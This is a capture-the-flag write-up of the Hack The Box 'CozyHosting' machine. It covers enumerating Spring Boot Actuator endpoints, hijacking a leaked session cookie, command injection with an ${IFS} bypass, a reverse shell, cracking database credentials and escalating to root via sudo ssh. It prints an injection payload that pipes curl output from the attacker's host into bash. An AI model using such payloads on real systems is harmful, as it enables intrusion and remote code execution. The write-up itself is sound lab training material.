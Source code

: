 ```yaml
---
title: HTB - CozyHosting
pin: true
layout: ""
author: [ Scott & Jolicious ]
math: true
date: 2024-02-20 11:27:22 +00:00
mermaid: true
icon: https://wolfcareers.com/wp-content/uploads/2023/01/1_cQGpZGkSuehv-YEXUweMQ-e1672674616339.webp
---
```


![alt text](/cozyhos/CozyHosting.png)

## Overview:
CozyHosting is an Linux Easy Machine that features a Spring Boot application. The Actuator endpoint has access to get mappings and sessions. A user's session cookie can be found by enumerating the endpoint, which grants authenticated access to the main dashboard. The program is susceptible to command injection, which can be used to take control of the remote computer and obtain a reverse shell. By counting the JAR files in the application, hardcoded login credentials are found and utilized to access the local database. Once the hashed password in the database has been cracked, it may be used to get onto the computer as the user Josh. SSH as root is permitted for the user, and this is used to fully escalate rights.


## Recon
---

### Nmap:

As always start with port scanning of cozyHosting using nmap:

```python
kali Easy/CozyHosting » sudo nmap -sC -sV 10.10.11.230  -oN nmap/initial
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-02 12:14 +0545
Nmap scan report for 10.10.11.230 (10.10.11.230)
Host is up (0.70s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp   open  http      nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
4444/tcp open  krb524?
8000/tcp open  http-alt?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.19 seconds
```

The nmap result listed out the different ports i.e 80, 4444 and 8000.
 <br>
The TCP Port 80 didnot follow redirection. So adding `cozyhosting.htb` at /etc/hosts.

### HTTP 80 

![1](/cozyhos/1.png)

This site seems like to be web hosting while navigating the website there is login page . Jump into their.

![alt text](/cozyhos/2.png)

There was nothing much interesting or any injections like Sql, etc in login page.

Fuzz the directories using Dirsearch.
![alt text](/cozyhos/3.png)

There is something identified or found the actuator directories. 

Search actuator in google.
![alt text](/cozyhos/4.png)

It is the `Spring Boot Actuator`. 

While continuously searching the Spring Boot Actuator there is the some documentation about mappings and seesions. 
- `mappings` endpoint which provides information about the application’s request mappings and 
- `sessions` endpoint which provides information about the application’s HTTP sessions that are managed by Spring Session.

Through we might find these fuzzing directories.

```bash
kali Easy/CozyHosting » cat reports/http_cozyhosting.htb/output.txt 
200     5KB  http://cozyhosting.htb/actuator/env
200     0B   http://cozyhosting.htb/actuator/;/prometheus
200    15B   http://cozyhosting.htb/actuator/health
200    10KB  http://cozyhosting.htb/actuator/mappings
200    98B   http://cozyhosting.htb/actuator/sessions
200   124KB  http://cozyhosting.htb/actuator/beans
401    97B   http://cozyhosting.htb/admin
```
## Foothold

Lets see `/actuator/mappings` 
![alt text](/cozyhos/5.png)

OR, 
```bash
kali Easy/CozyHosting »  curl http://cozyhosting.htb/actuator/mappings -X GET | jq .  
```
![alt text](/cozyhos/or2.png)

And see `/actuator/sessions` 
![alt text](/cozyhos/6.png)

OR,
```bash
kali Easy/CozyHosting » curl http://cozyhosting.htb/actuator/sessions -X GET | jq . 
```
![alt text](/cozyhos/or1.png)



There is jsessionid cookie with the session for kanderson to access the admin page. so it is `Session-Hiiacking` .

### Session Hijacking

While inspecting, go to cookie settings and replace the jsessionid with kanderson sessionid 

![alt text](/cozyhos/7.png)

When refreshing the page `/login` or `/admin` it goes to Admin Dashboard.

![alt text](/cozyhos/8.png)

Success !

### Host into Automatic Patching

Submitting the hostname as with localhost and Username as abc
![alt text](/cozyhos/AP.png)

it shows host key failed.

![alt text](/cozyhos/AP1.png)

The error  indicate that the service is attempting to connect to the specified host via SSH something like that:

```bash
ssh -i id_rsa username@hostname
```
It must be Command Injection

and we tried to run some command and got this errors as follows that the whitespaces aren't allowed.
![alt text](/cozyhos/18.png)


### Command Injection 

If it is Command Injection, the thing is that White spaces are not allowed in the username box. Lets search for whitespace box with spaces. 

![alt text](/cozyhos/9.png)

Found it says that so to bypass we can use ${IFS} as single space. which is a special shell variable that stands for
Internal Field Separator and defaults to a space  in shells like `Bash` and `sh` . It must be something like these testing in the username if it so.

```bash
abc;curl${IFS}+$IP;
```

Open a python server with 8000. When submitting the hostname as abc and username as ``;curl${IFS}10.10.16.14|bash;#``

![alt text](/cozyhos/11.png)

It hitted back to local host

![alt text](/cozyhos/12.png)

Lets first get a reverse shell whith creating sh file named `a.sh` and add:
![alt text](/cozyhos/10.png)

Hit a submit button with the payload that callback o our reverse shell handler. 
![alt text](/cozyhos/14.png)

Same using python server as well as listen a netcat with 9001. 

![alt text](/cozyhos/13.png)

Got shell `app@cozyhosting`. 

First stabilize the shell using `/usr/bin/script -qc /bin/bash /dev/null`. After that, there is jar file called ``cloudhosting-0.0.1.jar`` . 
![alt text](/cozyhos/15.png)

Download it to our local machine using python3 server from remote and wget.
![alt text](/cozyhos/16.png)

After we decrypt the jar file and run this command and get password
![alt text](/cozyhos/17.png)

Got the credentials i.e postgres:Vg&nvzAQ7XxR for postgres database of `app@cloudhosting` . 
login in postgres instance using these command:
```bash
psql -U postgres -h 127.0.0.1 -W -p 5432
```
We are able to access the postgres sql.
![alt text](/cozyhos/19.png)
We check the databases present in the DBMS.

![alt text](/cozyhos/20.png)
Cozyhosting is the database we need to enumerate. We use the following command to connect to the database cozyhosting.

```bash
\c cozyhosting
```
![alt text](/cozyhos/21.png)
There are 3 tables in the database cozyhosting. Looking at the names, it looks like the table that would be useful to us is users.
![alt text](/cozyhos/22.png)
There are two hash in the table users `admin` and `kanderson`.

![alt text](/cozyhos/23.png)

We save the hash in a file and run john in order to crack the hash. John is able to crack the hash and we get the password as `manchesterunited`.
![alt text](/cozyhos/25.png)
Login as another user that is `josh` and see the `sudo` privileges we have as the user. We can run `ssh` using `sudo`.
![alt text](/cozyhos/26.png)
GTFObins has some useful information in order to run commands using `ssh` .
![alt text](/cozyhos/27.png)
We run the command as seen in GTFObin and get root access in the machine.
![alt text](/cozyhos/28.png)
                
### THE END !

### REFERENCES:
1. https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces
2. https://gtfobins.github.io/gtfobins/ssh/
   